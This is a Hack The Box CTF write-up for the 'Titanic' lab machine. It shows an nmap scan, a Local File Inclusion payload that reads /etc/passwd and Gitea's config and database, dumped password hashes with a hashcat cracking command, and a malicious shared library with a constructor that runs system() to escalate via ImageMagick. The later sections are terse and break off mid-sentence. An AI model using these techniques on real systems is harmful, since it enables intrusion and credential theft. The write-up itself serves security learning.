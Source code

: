 ```yaml
---
title: "HTB Lab | Linux - Titanic"
date: 2025-06-25T23:15:00+07:00
draft: false
tags: ["Linux", "HTB", "HTB Machines", "Web", "Hashcat", "Local File Inclusion", "ImageMagick"]
categories: ["CTF Writeups"]
summary: "How I solved Hack The Box's vulnerable machine \"Titanic\"."
---
```

[![htb-titanic-1.png](htb-titanic-1.png#center)](https://app.hackthebox.com/machines/648)

# Reconnaissance

Start the machine, the IP given is `10.10.11.55`. We begin by performing an nmap scan on it, revealing 2 open ports:
```
$ nmap -sV 10.10.11.55
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-25 15:29 EDT
Nmap scan report for titanic.htb (10.10.11.55)
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.32 seconds
```
When visiting `http://10.10.11.55`, it will redirect you to `http://titanic.htb`. Here, add `10.10.11.55 titanic.htb` to your `/etc/hosts` file - this resolves the IP as `titanic.htb` automatically.

Exploring the website, we notice there is a form when clicking on "Book Your Trip". 

![htb-titanic-2.png](htb-titanic-2.png#center)

Filling in garbage information and submit, a JSON file is downloaded. Viewing it shows the information that we just inputted. My initial suspicision was a vulnerability in the actual input fields, but this yields no result. 

# Web Exploitation
I turn to using Burp Suite to intercept the requests upon clicking 'Submit', revealing a `POST http://titanic.htb/book` and `GET http://titanic.htb/download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json`.

```
GET /download?ticket=6a516344-0c5b-4936-a025-c364b30565e8.json HTTP/1.1
Host: titanic.htb
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titanic.htb/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Notice that the downloaded file is explicitly shown in the URL. Send this request over to Burp Suite's Repeater, and test for [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) by replacing the request as `/download?ticket=/etc/passwd`.

![htb-titanic-3.png](htb-titanic-3.png#center)

As shown, this was successful in revealing the content of `/etc/passwd`. If you are aware or just through pure intuition that this file is for storing user accounts information, you can naively obtain the user flag by finding the user account `developer` and use LFI `/home/developer/user.txt` to output its content. However, in a real attack, it's likely certain we do not know the exact file name or directory of what we are searching for.

# Gaining Access
## Gitea
This part is where I had a much different approach from HTB's official write-up since I did the box while it was still active. The intended solution was to perform **vHost fuzzing** using `gobuster`, whereas I kept inspecting common files using LFI until I stumble upon `/etc/hosts`. Both solutions would lead to the discovery of `dev.titanic.htb` vHost. Similarly, add it to your `/etc/hosts` file with `10.10.11.55`. 

Visiting it in the browser, we find a self-hosted Gitea instance. Clicking on the 'Explore' tab, we find 2 repositories `docker-config` and `flask-app`.

![htb-titanic-4.png](htb-titanic-4.png#center)

Initially, I checked out `docker-config/mysql/docker-compose.yml` which gave me a MySQL root password. Despite being a great find, there were no open MySQL ports from doing another nmap scan, so I could not continue. However, viewing `docker-config/gitea/docker-compose.yml`, we find the path format for the Gitea instance is `/home/developer/gitea/data:/data`.

![htb-titanic-5.png](htb-titanic-5.png#center)

Here, the official write-up for HTB had a better and more consistent approach by setting up the actual Docker instance and searching the Gitea directory structure from there. I had a different approach which involved some digging and a bit of luck, in which I read the official documentation from Gitea on [its configuration](https://docs.gitea.com/administration/config-cheat-sheet). Knowing Gitea typically place its configuration at `/etc/gitea/conf/app.ini` and from the path format specified in the previous step, I deducted that the path on this system would be `/home/developer/gitea/data/gitea/app.ini`. Sure enough, when trying LFI, I am able to obtain its content. Below are the 2 pieces of information that will be needed next:

![htb-titanic-6.png](htb-titanic-6.png#center)

Download the database file `/home/developer/gitea/data/gitea/gitea.db`. Do `SELECT name,passwd,salt,passwd_hash_algo FROM user` and we can find the username, password hash, salt & their hashing algorithm. Referring back to `app.ini`, we can confirm that the algorithm is `PBKDF2`.
```
sqlite> select name,passwd,salt,passwd_hash_algo from user;
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b|pbkdf2$50000$50
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34|pbkdf2$50000$50
```

## Hash Cracking
Browsing through [Gitea's documentation](https://docs.gitea.com/administration/config-cheat-sheet#security-security), 

```sh
echo -n "2d149e5fbd1b20cf31db3e3c6a28fc9b" | xxd -r -p | base64
```

```sh
hashcat -m 10900 hashes.txt /usr/share/wordlists/rockyou.txt 
```

```sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

```sh
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
	system("cp /root/root.txt root.txt; chmod 777 root.txt");
    exit(0);
}
EOF
```

# Learned Skills
- Practical CVE research and hands-on exploitation of ImageMagick vulnerability on actual Linux web server.
